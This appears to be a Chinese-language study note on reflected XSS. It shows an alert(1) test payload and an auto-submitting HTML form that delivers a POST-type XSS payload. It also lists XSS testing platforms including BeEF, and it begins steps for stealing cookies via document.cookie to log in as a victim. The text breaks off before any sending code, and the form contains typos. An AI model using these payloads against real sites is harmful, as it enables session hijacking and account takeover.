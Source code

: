 `<script>alert(1);</script>`  
#注意输入的长度限制，可以通过前端来更改表单

提交之后可以通过直接复制url去达到目的

### POST型XSS反射

测验与GET提交一样，登录之后提交就可在本地验证

实际利用：

构造一个点击请求触发的页面

```html
<html>
    <head>
        <script>
            window.onload=()=>{
               document.getElementById("submit").click();
               //获取“submit”元素ID进行点击
            };
            //设置载入成功之后进行点击
        </script>  
        <!--script用来生成自动提交-->
    </head>
    <body>
        <from method="post" action="url" hidden>
       <!--action设置提交的位置（即需要触发的页面），防止自提交页面的死循环；并hidden隐藏提交表单-->
            <input class="xssr_in" name="message" type="text" value="<scrpit>alert(1);</script>">  
            <!--value用来自动赋值给提交框“text”内容-->
            <input id="submit" class="xssr_submit" name="submit" type="submit" value="submit">
        </from>   
        <!--from表单是要攻击页面的输入与提交框表单，右键查看元素可获取-->
    </body>
</html>
```

### XSS测试平台

 https://xss.yt

beef(须部署kali公网地址)

https://xss.haozi.me

### **手动构造

伪造cookie信息进行登录的实现：

#### 1.构造js脚本获取cookie

第一步：**获取cookie**

控制台获取document.cookie

第二步：**发送cookie**
